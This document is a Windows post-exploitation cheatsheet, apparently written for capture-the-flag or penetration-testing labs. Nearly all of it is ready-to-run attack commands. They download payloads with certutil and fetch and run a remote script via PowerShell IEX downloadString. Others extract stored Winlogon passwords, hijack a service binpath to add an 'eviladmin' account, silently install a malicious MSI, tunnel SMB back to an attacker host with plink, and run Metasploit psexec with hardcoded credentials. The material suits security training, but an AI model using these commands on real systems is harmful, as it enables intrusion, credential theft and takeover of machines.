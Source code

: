 # Cheatsheet

## Moving files

> - Ref: http://carnal0wnage.attackresearch.com/2017/08/certutil-for-delivery-of-files.html

```
certutil -verifyctl -split -f ​ http://10.10.14.8/taskkill.exe
mv *.bin taskkill.exe
```

## Extract ZIP
```
Add-Type -assembly
'system.io.compression.filesystem';[io.compression.zipfile]::ExtractToDirectory
("C:\backup.zip","C:\Example\")
```

## View File Systems
```
gdr -PSProvider 'FileSystem'
```

## Access shared volume
```
net use y: \\10.10.10.57\c$ /user:administrator 1234test
```

## Invoke command with credentials
```
$user = '.\administrator';
$psw = '1234test';
$secpsw = ConvertTo-SecureString $psw -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $user, $secpsw
```
```
invoke-command -computername localhost -credential $credential
-scriptblock {cd C:\Users\Administrator\Desktop\;C:\Users\Administrator\Desktop\root.exe}
```
## Alternate Data Stream
- Listing: `dir /R`
- Find Streams: `​get-item -path *.* -stream *`
- Reading: `​powershell Get-Content -Path "hm.txt" -Stream "root.txt"`
- Reading: `get-content backup.zip -stream 'pass'`

## MSI

### Installing MSI
```
msiexec /quiet /qn /i malicious.msi
```
```
/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs. administrative) installation
```

## Services

- Registry entries: `HKLM\SYSTEM\CurrentControlSet\Services`
- View service properties: `sc qc "Vulnerable Service"`
- Restarting: `sc stop "Vulnerable Service"`
- Service information: `Get-Service​ ​ "Ubiquiti UniFi Video"​ | fl *`
- Restart PC: `shutdown /r /t 0`
- Change binary path: `sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add`

### Keep alive
When a service starts in Windows operating systems, it must communicate with the `Service Control Manager`. If it’s not, `Service Control Manager` will terminates the process.

## Auto Save Password to PowerShell
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```
```
​$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;
$creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)​

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://<LAB IP>/writeup')" -Credential $creds
```
## Permissions

```
whoami /priv
```

## View Permisions
```
cacls C:\Users\Administrator\Desktop\root.txt
```

### Grant Permissions
```
cacls C:\Users\Administrator\Desktop\root.txt /grant Alfred:F
```

## SSH from Windows to Attacker (Kali)

### Manual
From Windows:
```
plink.exe -l root -pw  -R 445:127.0.0.1:445 10.10.14.8
```

From Attacker:
```
netstat -ano | grep 445
winexe -U Administrator //127.0.0.1 "cmd.exe"
```

### Metasploit
```
portfwd add -l 445 -p 445 -r 127.0.0.1
use exploit/windows/smb/psexec
 set SMBDOMAIN CHATTERBOX
 set SMBUSER Administrators
 set SMBPASS Welcome1!
 set RHOST 127.0.0.1
exploit
```
